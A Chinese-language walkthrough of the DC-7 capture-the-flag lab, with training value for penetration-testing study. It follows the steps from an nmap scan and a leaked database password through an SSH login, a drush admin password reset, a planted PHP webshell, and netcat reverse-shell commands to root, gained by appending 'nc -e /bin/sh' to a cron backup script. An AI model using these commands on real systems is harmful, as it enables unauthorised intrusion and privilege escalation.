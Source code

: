 ```yaml
---
title: DC-7
---
```

# DC-7

## 描述

> DC-7是另一个专门建造的易受攻击的实验室，旨在获得渗透测试领域的经验。
>
> 虽然这不是一个过于技术性的挑战，但它并不容易。
>
> 虽然这是早期DC版本的逻辑进展（我不会告诉你是哪一个），但涉及一些新概念，但你需要自己弄清楚这些概念。:-)如果您需要诉诸暴力破解或字典攻击，您可能不会成功。
>
> 你需要做的，是“跳出框框”思考。
>
> 哇 盒子的“外面”。:-)
>
> 这个挑战的最终目标是获得根并阅读唯一的标志。
>
> Linux 技能和对 Linux 命令行的熟悉是必须的，对基本渗透测试工具的一些经验也是必须的。
>
> 对于初学者来说，谷歌可以提供很大的帮助，但你总是可以在@DCAU7发推文给我寻求帮助，让你再次前进。但请注意：我不会给你答案，相反，我会给你一个关于如何前进的想法。

## 信息收集

确定目标的**IP**，以及开放的端口

`nmap 192.168.71.0/24`

![image-20221201092525322](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20221201092525322.png)

访问80端口上的服务

![image-20221201093011739](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20221201093011739.png)

机翻

![image-20221201093141461](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20221201093141461.png)

根据这个提示，说不是技术性的问题，那就有可能是找线索，然后可以发现在脚标处有一个@DC7USER，用谷歌搜索进到了他的GitHub主页，在他的staffdb仓库中的config.php里发现了一个账号和密码，还有数据库的名字

```php
<?php
	$servername = "localhost";
	$username = "dc7user";
	$password = "MdR3xOgB7#dW";
	$dbname = "Staff";
	$conn = mysqli_connect($servername, $username, $password, $dbname);
?>
```

![image-20221201093608772](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20221201093608772.png)

## 漏洞利用

### 账号密码泄露利用

直接在网页登录，是失败的

![image-20221201093747135](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20221201093747135.png)

那就换一个思路，我们最开始扫描机器的时候，发现其开启了22端口，那就尝试ssh登录

```bash
ssh dc7user@192.168.71.129
```

登录成功

![image-20221201094354750](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20221201094354750.png)

在当前目录下，发现了两个文件夹**backups**和**mbox**，其中backups是有两个gpg结尾的文件，经过查阅得知这是一种加密文件的后缀；在mbox里记录着root的定时任务，其项目位于 `/opt/scripts/backups.sh`

![image-20221201095704000](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20221201095704000.png)

查看**backups.sh**里的内容

![image-20221201095822202](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20221201095822202.png)

因为是一个shell脚本，那就看是否够权限写入，并执行进行反弹shell

`ls -l`

发现并没有权限

![image-20221201100418322](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20221201100418322.png)

### drush修改密码

在**backups.sh**里，我们看到了**drush**命令，进行简单的了解后发现可以利用

drush部分命令：

```
查看用户信息
drush user-information admin	//查询是否存在admin
修改密码
drush upwd admin --password="1234"		//修改admin密码为1234
```

存在admin用户

![image-20221201101409140](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20221201101409140.png)

admin密码修改成功

![image-20221201101440524](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20221201101440524.png)

成功登录

![image-20221201101512704](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20221201101512704.png)

### 反弹shell

这个站的cms是Drupal8，它是不支持php代码的，需要添加模块

![image-20221201101820426](C:\Users\alpha\AppData\Roaming\Typora\typora-user-images\image-20221201101820426.png)

位置：**manage**->**extend**->**install new module**

可以选者在**intsall from a url**里面填入下载地址进行安装，也可以下载之后选择**Upload a module or theme archive to install**导入安装，我因为url导入不成功，就用上传的方式

下载地址：

```url
https://ftp.drupal.org/files/projects/php-8.x-1.x-dev.tar.gz
```

![image-20221201102310752](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20221201102310752.png)

回退到Extend界面进行安装

![image-20221201102628741](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20221201102628741.png)

然后进到content界面直接修改随便一个文件，写入一句话木马

![image-20221201102938629](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20221201102938629.png)

连接成功，利用蚁剑的虚拟终端进行反弹shell

![image-20221201103452414](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20221201103452414.png)

```
nc -lvvp 1234	//在攻击机上执行
nc -e /bin/sh 192.168.71.128 1234	//在受害机上执行
python -c 'import pty; pty.spawn("/bin/bash")'	//交互式shell
```

![image-20221201103751736](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20221201103751736.png)

## 提权

之前的提权方式都用不了，就只能换个思路，前面提到想用**backups.sh**进行反弹shell，发现www-data用户是有写入的权限的，那就同理利用其进行提权

可以直接在蚁剑里找到backups.sh直接加上 `nc -e /bin/sh 192.168.71.128 1234`

![image-20221201144758579](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20221201144758579.png)

也可以利用echo进行写入

```bash
echo 'nc -e /bin/sh 192.168.71.128 1234'>>/opt/scripts/backups.sh
```

```bash
cd ~
cat theflag.txt
```

## flag

![image-20221201144633041](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20221201144633041.png)
